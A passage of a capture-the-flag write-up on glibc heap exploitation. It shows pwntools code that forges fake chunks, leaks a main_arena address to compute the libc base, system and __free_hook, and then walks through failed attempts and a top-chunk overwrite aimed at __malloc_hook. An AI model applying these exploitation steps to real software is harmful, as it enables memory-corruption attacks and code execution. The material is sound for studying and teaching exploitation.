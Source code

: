 ```python
# Only two fake chunks are required, I just made a bunch of them cuz I was lazy
# The two fake chunks allow us to free this 0x91 sized chunk and bypass security checks
reintroduce(p64(0) + p64(0x91) + p64(0x21)*23)

# Free fake chunk, places the address of main_arena+0x58 into its fd and bk fields
free(6)

# We overwrite the chunk header with 'AAAAAAA\n'
# This causes reintroduce to say our name, and print out 'AAAAAAA\n<main_arena_addr+0x58>'
# We just format it correctly to get the leak
leak = u64(reintroduce('A'*(0x8+0x7) + '\n').split('\n')[1][:-1].ljust(8, '\x00'))

# Calculate all offsets needed
main_arena = leak - 0x58
libc.address = leak - 0x3c4b78
system = libc.symbols['system']
free_hook = libc.symbols['__free_hook']

log.info('Leak: ' + hex(leak))
log.info('main arena: ' + hex(main_arena))
log.info('Libc base: ' + hex(libc.address))
log.info('system: ' + hex(system))
log.info('__free_hook: ' + hex(free_hook))
```

#### Step 2: **Mind = blown**

Here is where the exploit gets very interesting. Here is what I tried initially:

1. I tried your standard fastbin attack to get a chunk above `__malloc_hook`, but quickly realized that due to the 0x58 size constraint, this was not possible. We'd need to be able to allocate chunks of size 0x60-0x68 to be able to do this attack (FAILED).

2. Then, I tried to overwrite `_IO_2_1_stdin_`'s `_IO_BUF_END` to the address of `main_arena + 0x58` by doing the unsorted bin attack. The idea was that after doing this, any user input performed using `scanf` would use the space between `_IO_BUF_BASE` and `_IO_BUF_END` to store our input. We could overwrite `__malloc_hook` this way, since `_IO_BUF_BASE` is set to right above `__malloc_hook`, and `main_arena + 0x58` is way after `__malloc_hook`. However, of course the program only uses `read` to read in user input and not `scanf`, therefore this didn't work either (FAILED).

3. Then, I tried to do the House of Orange attack. However, I've actually never done that attack before, and from my limited knowledge of it, it seemed like the 0x58 size constraint prevented me from doing that attack as well (FAILED).

I spent about a day and a half doing all of that, and kept trying to look for similar writeups. I was then told by NotDeGhost from redpwn that the author `poortho` had made a similar challenge in the past. A little bit of doxxing and I found this one writeup of `hard_heap` from HSCTF-6, which had a broken link, but I could go on the author's github and download the `index.html` file that was used for the writeup and then view it in Firefox. This person did this brilliant attack where they overwrote the top chunk pointer in the `main_arena` to `__malloc_hook - 0x15`. What happens then is that any request for memory that has to be serviced using the top chunk will give a chunk at `__malloc_hook - 0x15`, which can be used to overwrite `__malloc_hook`.
